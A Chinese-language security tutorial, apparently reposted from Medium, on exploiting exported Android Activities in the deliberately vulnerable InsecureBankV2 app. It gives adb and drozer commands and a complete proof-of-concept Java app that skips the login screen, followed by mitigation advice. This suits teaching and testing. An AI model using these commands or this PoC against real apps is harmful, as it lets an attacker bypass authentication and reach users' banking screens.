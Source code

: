 #  Android活动（Activities）Exploiting 技术   
原创 一个不正经的黑客  一个不正经的黑客   2024-09-23 21:00  
  
# Activities Exploiting 技术  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/cxf9lzscpMpW6ggqEL25rLgW0f09K0BB3WpLTDrM1RFIia5vZyEFiaOyGsiaAnichpJCt8lpVy4dJT2D0m2Pa8vbuQ/640?wx_fmt=jpeg&from=appmsg "")  
  
在本文中，我将详细解释如何利用安卓Activity组件的各种方式。让我们直接进入正题吧……  
## 什么是Activity？  
  
什么是Activity？  
- Activity是Android应用程序中的基本组件之一。  
  
- 它代表一个带有用户界面的单独屏幕，用户可以在该界面上进行交互。  
  
- Activity负责管理用户界面的生命周期，并处理用户输入。  
  
- 在Android应用中，每个屏幕都通过一个独立的Activity类实现。  
  
- 开发者可以使用XML和Java或Kotlin代码来自定义Activity。  
  
- 它还负责管理应用的流程和导航，确保用户在不同界面间流畅切换。  
  
## Exported Activity  
  
Exported Activities是指可以被其他应用程序启动的Activity。  
  
默认情况下，Activity是无法被其他应用程序访问的，除非在应用配置中明确指定。  
  
Exported Activities可以通过在AndroidManifest.xml文件中添加如下代码进行设置：  
```
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    package="com.example.myapp">

    <application>

        <activity
            android:name=".ExportedActivity"
            android:exported="true">
            <!-- 如果有的话，Intent过滤器 -->
        </activity>
    </application>

</manifest>
```  
  
虽然Exported Activities在Android应用中可能非常有用，但如果实现不当，也可能带来安全风险。  
  
当在AndroidManifest.xml文件中将Activity的 exported属性设置为 true时，意味着该Activity可以被设备上的其他应用程序启动；如果设置为 false，则无法被其他应用启动。  
  
为了更好地演示这个问题，我将使用InsecureBankV2漏洞应用程序进行测试。  
  
在安装应用并使用jadx进行反编译（当然你可以使用其他工具），通过搜索 exported关键字，我发现该应用程序有三个Activity被导出，其中一个叫做PostLogin。  
  
考虑到这一点，我们实际上可以绕过DoLogin活动，直接跳转到PostLogin活动，而无需在应用中进行身份验证。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/cxf9lzscpMpW6ggqEL25rLgW0f09K0BBkxCS9ZQHfDRcOrcBmxq5YNUFTxT2ddTuAsEkSn9AnfOIDhZ8SP0Aeg/640?wx_fmt=png&from=appmsg "")  
  
要利用这个exported activity，我们需要安装adb并使用一个模拟器。  
  
在我的案例中，我将使用我的可信赖的、为了便宜的安卓游戏而设计的BlueStacks模拟器。  
  
在通过adb shell获取模拟器的shell之后，我们可以使用 "am"（Activity Manager）命令，这个命令允许我们通过终端调用活动以及执行其他操作。  
  
为了调用我们的PostLogin活动：  
```
am start -n  com.android.insecurebankv2/.PostLogin

# am start -n packagename/.activityname
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/cxf9lzscpMpW6ggqEL25rLgW0f09K0BB8oU8ttTh4AdFq3NhHELc7vic8KM3Ep9kDoIMqcD4lMpWLYtzleE7TKw/640?wx_fmt=png&from=appmsg "")  
> 我们还可以启动DoTransfer和ViewStatement活动。  
  
  
此外，我们也可以使用drozer来启动这些exported activities。  
## 什么是drozer？  
  
Drozer是由FSecureLABS开发的Android应用安全测试框架，旨在帮助测试人员更轻松地创建测试用例并对Android应用进行安全评估。  
  
请注意，您需要在计算机上安装Drozer工具，并在模拟器上安装Drozer Agent。  
  
要通过drozer启动PostLogin活动，可以使用以下命令：  
```
run app.activity.start --component com.android.insecurebankv2 com.android.insecurebankv2.PostLogin
#run app.activity.start --component package_name component_name
```  
> 以上提供的利用Activities的方式是不错的，但在现实生活中并不适用，因为我们（攻击者）无法访问用户的手机shell，因此无法运行shell命令。  
  
  
最后一种与现实生活场景相关的方法是实际开发一个Android应用程序，触发一个Intent，以启动InsecureBankv2应用的exported activity。  
```
package com.example.application;

import androidx.appcompat.app.AppCompatActivity;
import android.content.Intent;
import android.os.Bundle;
import android.view.View;

public class launchVulnIntent extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_launch_vuln_intent);
    }

    // 单击触发时运行的函数
    public void triggerIntent(View view) {
        Intent launch = new Intent(Intent.ACTION_SEND);
        launch.setClassName("com.android.insecurebankv2", "com.android.insecurebankv2.PostLogin");
        startActivity(launch);
    }
}
```  
  
对应的XML布局文件为：  
```
<?xml version="1.0" encoding="utf-8"?>
<androidx.constraintlayout.widget.ConstraintLayout xmlns:android="http://schemas.android.com/apk/res/android"
    xmlns:app="http://schemas.android.com/apk/res-auto"
    xmlns:tools="http://schemas.android.com/tools"
    android:layout_width="match_parent"
    android:layout_height="match_parent"
    tools:context=".launchVulnIntent">

    <Button
        android:id="@+id/triggerLaunch"
        android:layout_width="wrap_content"
        android:layout_height="wrap_content"
        android:text="Trigger Me If YOU Can"
        android:onClick="triggerIntent"
        tools:ignore="MissingConstraints" />
</androidx.constraintlayout.widget.ConstraintLayout>
```  
  
这段代码基本上会在按钮被点击时触发 triggerIntent函数，从而激活一个指向我们脆弱的exported activity的Intent，允许我们直接访问它。  
  
这将是一个很好的POC（概念验证  
  
![](https://mmbiz.qpic.cn/mmbiz_png/cxf9lzscpMpW6ggqEL25rLgW0f09K0BBRWicgj1Myuw41RNMM19EyFIgoUDtCEliacWJWdce2egmr2qLOj2xbAJg/640?wx_fmt=png&from=appmsg "")  
  
缓解措施：  
- 除非你确实希望导出Activity，否则将“android”设置为“false”。  
  
- 如果确实需要导出，确保限制可以访问该Activity的应用程序。  
  
## The end  
  
谢谢你的阅读，希望你喜欢这篇文章。❤  
  
Thanks for src: https://medium.com/@0xkenway/exploiting-android-activities-f398a796e021  
  
  
